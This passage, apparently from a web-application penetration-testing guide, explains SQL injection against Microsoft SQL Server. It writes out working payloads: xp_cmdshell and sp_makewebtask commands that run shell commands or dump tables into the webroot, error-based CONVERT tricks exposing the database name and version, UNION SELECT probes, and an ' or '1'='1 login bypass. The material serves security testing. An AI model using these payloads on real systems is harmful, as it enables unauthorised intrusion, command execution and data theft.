 Below we show how to execute a shell command that writes the output of the command *dir c:\\inetpub* in a browseable file, assuming that the web server and the DB server reside on the same host. The following syntax uses xp\_cmdshell:

     exec master.dbo.xp_cmdshell 'dir c:\inetpub > c:\inetpub\wwwroot\test.txt'--

Alternatively, we can use sp\_makewebtask:

     exec sp_makewebtask 'C:\Inetpub\wwwroot\test.txt', 'select * from master.dbo.sysobjects'--

A successful execution will create a file that can be browsed by the pen tester. Keep in mind that sp\_makewebtask is deprecated, and, even if it works in all SQL Server versions up to 2005, it might be removed in the future.

In addition, SQL Server built-in functions and environment variables are very handy. The following uses the function **db\_name()** to trigger an error that will return the name of the database:

    /controlboard.asp?boardID=2&itemnum=1%20AND%201=CONVERT(int,%20db_name()) 

Notice the use of [http://msdn.microsoft.com/library/en-us/tsqlref/ts\_ca-co\_2f3o.asp convert](http://msdn.microsoft.com/library/en-us/tsqlref/ts_ca-co_2f3o.asp_convert "wikilink"):

    CONVERT ( data_type [ ( length ) ] , expression [ , style ] )

CONVERT will try to convert the result of db\_name (a string) into an integer variable, triggering an error, which, if displayed by the vulnerable application, will contain the name of the DB.

The following example uses the environment variable '''@@version ''', combined with a “union select”-style injection, in order to find the version of the SQL Server.

    /form.asp?prop=33%20union%20select%201,2006-01-06,2007-01-06,1,'stat','name1','name2',2006-01-06,1,@@version%20--

And here's the same attack, but using again the conversion trick:

     /controlboard.asp?boardID=2&itemnum=1%20AND%201=CONVERT(int,%20@@VERSION)

Information gathering is useful for exploiting software vulnerabilities at the SQL Server, through the exploitation of an SQL-injection attack or direct access to the SQL listener.

In the following, we show several examples that exploit SQL injection vulnerabilities through different entry points.

### Example 1: Testing for SQL Injection in a GET request.

The most simple (and sometimes most rewarding) case would be that of a login page requesting an user name and password for user login. You can try entering the following string “' or '1'='1” (without double quotes):

`https://vulnerable.web.app/login.asp?Username='%20or%20'1'='1&Password='%20or%20'1'='1`

If the application is using Dynamic SQL queries, and the string gets appended to the user credentials validation query, this may result in a successful login to the application.

### Example 2: Testing for SQL Injection in a GET request

In order to learn how many columns exist

`https://vulnerable.web.app/list_report.aspx?number=001%20UNION%20ALL%201,1,'a',1,1,1%20FROM%20users;--`
